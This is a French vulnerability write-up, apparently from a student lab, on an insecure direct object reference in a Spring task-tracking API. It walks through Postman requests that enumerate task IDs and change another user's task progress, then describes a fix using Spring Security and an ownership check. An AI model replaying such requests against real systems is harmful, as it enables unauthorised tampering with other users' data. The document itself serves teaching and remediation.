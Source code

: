 # Faille
Une faille de sécurité concernant le contrôle d’accès sur la mise a jours du pourcentage d’une tache est exploitable.

# Exploit
1. Pirate crée un compte avec Postman en utilisant la requête POST http://llbinfd060400:8080/api/id/signup, avec un corps de requête contenant les paramètres "username" et "password".
Exemple:
    Corp de requête:
        {
            "username": "pirate",
            "password": "P@ss"
        }

2. Pirate se connecte avec Postman au compte créé à l’étape précédente en utilisant la requête POST http://llbinfd060400:8080/api/id/signin, avec un corps de requête contenant les paramètres "username" et "password".
Exemple:
    Corp de requête: 
        {
            "username": "pirate",
            "password": "P@ss"
        } 

3. Pirate utilise Postman pour rechercher l’ID de la tâche qu’il souhaite modifier en modifiant l’ID dans la requête GET http://llbinfd060400:8080/api/detail/{id}. Il examine ensuite le corps de la réponse reçue.
Exemple:
    Requête: 
        GET http://llbinfd060400:8080/api/detail/14

    Corps recus:
        {
            "id": 14,
            "name": "Tache pour l'etudiant au poste 20",
            "deadline": "2024-06-24T16:27:46",
            "events": [],
            "percentageDone": 0,
            "percentageTimeSpent": 0.0
        }

4. Pirate utilise Postman pour modifier la "valeur" de la tâche dont il a trouvé l’ID à l’étape précédente. Il envoie une requête GET http://LLBINFD060400:8080/api/progress/{id}/{valeur}.
Exemple:
    GET http://LLBINFD060400:8080/api/progress/14/73

5. Pirate peut confirmer l’enregistrement du changement en consultant à nouveau les détails de la tâche avec la requête GET http://llbinfd060400:8080/api/detail/{id}.
Exemple:
    Requête: 
        GET http://llbinfd060400:8080/api/detail/14

    Corps recus:
        {
            "id": 14,
            "name": "Tache pour l'etudiant au poste 20",
            "deadline": "2024-06-24T16:27:46",
            "events": [
                {
                    "value": 73,
                    "timestamp": "2024-04-30T12:43:49"
                },
            ],
            "percentageDone": 73,
            "percentageTimeSpent": 0.0
        }

# Correctif
Cette faille se corrige en 4 étapes:

1. Spring Security : Mettez en place la bibliothèque Spring Security pour garantir que les utilisateurs ne peuvent pas accéder à n’importe quelle ressource.

2. Authentification : Utilisez Spring Security pour gérer l’authentification.

3. Extraction de l’utilisateur authentifié actuel : Ajoutez un paramètre de service pour récupérer l’utilisateur actuellement authentifié. Vérifiez avec une méthode que c’est bien lui qui modifie la tâche. 
Exemple:
    private MUtilisateur utilisateurActuel() {
        UserDetails ud = (UserDetails) SecurityContextHolder.getContext().getAuthentication().getPrincipal();
        MUtilisateur utilisateur = service.utilisateurParSonNom(ud.getUsername());
        return utilisateur;
    }

4. Test de propriété : Assurez-vous que les propriétés sont correctement vérifiées.